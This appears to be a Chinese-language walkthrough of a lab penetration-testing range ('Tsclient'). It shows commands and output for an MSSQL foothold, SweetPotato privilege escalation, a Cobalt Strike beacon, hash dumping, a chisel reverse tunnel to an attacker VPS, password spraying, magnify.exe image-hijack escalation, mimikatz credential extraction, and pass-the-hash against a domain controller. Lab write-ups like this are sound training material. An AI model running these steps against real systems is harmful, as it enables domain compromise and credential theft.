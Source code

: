 ```yaml
---
title: 春秋云境-Tsclient
subtitle:
date: 2025-03-14T14:54:23+08:00
slug: dea3a3c
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 春秋云境
categories:
  - 春秋云境
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

访问发现是Windows主机，但并没有什么有用的信息
![](images/9226450074ff5fe86d440023bee438c2.png)

![](images/9a5a5f3b505e880a061b8beb9cb67e6e.png)
fscan开扫，发现m ssql数据库用户名和密码，MDUT拿到Shell。
![](images/70bafd8876ceab5b38ce3b73f4fd15d1.png)
执行whoami查看用户，发现是sqlserver，权限较低。
![](images/41c5e43947475ec601b8f47f3087e1f4.png)
尝试利用Sweetpotato进行提权。
![](images/9e92ad40940c2791d0decca455d50e5a.png)
命令执行 C:/Users/Public/SweetPotato.exe -a "whoami"
![](images/19793dc78c31307c764a69dba50ba21c.png)
发现可以正常执行，上传cs马，执行cs马

```
C:/Users/Public/SweetPotato.exe -a "C:/Users/Public/beacon_x64.exe"
```

![](images/be593718352129c88d17556a2935f4da.png)cs成功上线
![](images/f23ce3745e2757e875150fbc6c667ebb.png)
执行命令，得到flag1

```
shell type C:\Users\Administrator\flag\flag01.txt
```

![](images/448b26a2fc9c76077e5c18a77792db2e.png)

```
hashdump
```

```
[03/08 16:09:01] beacon> hashdump
[03/08 16:09:01] [*] Tasked beacon to dump hashes
[03/08 16:09:59] [+] host called home, sent: 82541 bytes
[03/08 16:10:01] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
cxcx:1013:aad3b435b51404eeaad3b435b51404ee:72d98c440b25ce7b05d81233044c020c:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::
```

查看网络连接等

```
shell netstat -ano
```

![](images/79888364eb73aae0090bc62bc7a4f4e1.png)
看到3389端口指向`172.22.8.31`另一个主机
查看在线用户

```
shell quser || qwinst
```

![](images/7b03f99152439c5df719fd52401c4b6b.png)
发现john用户，可以cs注入进程进行上线。
![](images/d88bcd0245f711a689e037faad597c33.png)
成功上线John
![](images/6bb36f84fc16aba7f4b50344a16b494a.png)
查看共享资源，列出目录文件

```
shell net use
shell dir \\tsclient\c
```

![](images/3bdd3725a5d57a1b4e3d188453adf099.png)
读取文件，拿到账号密码，并提醒映像劫持

```
shell type \\tsclient\c\credential.txt
```

```
03/08 16:20:22] beacon> shell type \\tsclient\c\credential.txt
[03/08 16:20:23] [*] Tasked beacon to run: type \\tsclient\c\credential.txt
[03/08 16:21:11] [+] host called home, sent: 63 bytes
[03/08 16:21:11] [+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

上传`chisel.exe`和`fscan`，扫描内网并进行内网穿透
先进行fscan扫描内网

```
shell C:\\Users\\Public\\t1ng\\fscan.exe -h 172.22.8.0/24
```

```
[03/08 16:32:37] beacon> shell C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
[03/08 16:32:38] [*] Tasked beacon to run: C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
[03/08 16:33:15] [+] host called home, sent: 82 bytes
[03/08 16:33:25] [+] received output:

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.31:139 open
172.22.8.15:88 open
172.22.8.46:135 open
172.22.8.31:135 open
172.22.8.18:139 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetBios 172.22.8.15     [+] DC:XIAORANG\DC01           
[*] NetInfo 
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:3430:be2:d89c:72b2
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] NetInfo 
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo 
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql 172.22.8.18:1433:sa 1qaz!QAZ
```

`chisel`内网穿透

```
靶机
shell C:\\Users\\Public\\chisel.exe client vps_ip:9002 R:0.0.0.0:9003:socks

vps
./chisel server -p 9002 --reverse
```

利用cme进行密码喷射

```
proxychains4 -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```

![](images/02e6886ee760160c87849c925d3218c8.png)
发现可以登录`172.22.8.46`主机，但是会显示密码过期，使用`smbpasswd`修改密码
[Lex-Case/Impacket: Impacket is a collection of Python classes for working with network protocols.](https://github.com/Lex-Case/Impacket/tree/master)

```
proxychains4 -q python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.46 -newpass 'QWERqwer1234'
```

![](images/83f17f9a75e9b9728c53d436197877f0.png)
RDP远程桌面连接

```
proxychains4 rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'QWERqwer1234' -r disk:share=/home/kali/Desktop/tmp
```

![](images/62d5e47ec79406a42c2e6e29100a880a.png)

映像劫持，利用放大镜提权
[映像劫持的几种利用方式 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/321211.html)

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

![](images/5aa6c8fcc38be58e66ac5f472bdacdb4.png)
开始，锁定
![](images/8dcfc0a28c64e2fda7f6a5a8297f82f9.png)
点击放大镜
![](images/c1c5d44ede8c677c4010c68f4971f4a2.png)
![](images/43ae04d7128b1df7c451a202277ff99e.png)
成功提权，读flag02

```
type C:\User\Administrator\flag\flag02.txt
```

![](images/feff7846d15fa619bb16a8660b525cb5.png)
尝试查看主机是否出网，
![](images/6be329c8f1ddbc9687e9c609491a6486.png)
 上传`mimikatz`，同样位置执行

 ```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
 ```

拿到用户名和NTML哈希，哈希传递
![](images/366b773d340839607a2191e9bc01347f.png)
拿PTH打DC

```
proxychains4 crackmapexec smb 172.22.8.15 -u WIN2016$ -H b5a0472a0c4933f0d50b7c499d267e0f -d xiaorang -x "type C:\Users\Administrator\flag\flag03.txt"
```

![](images/784de068039ffc9e1edaeaa809d34014.png)
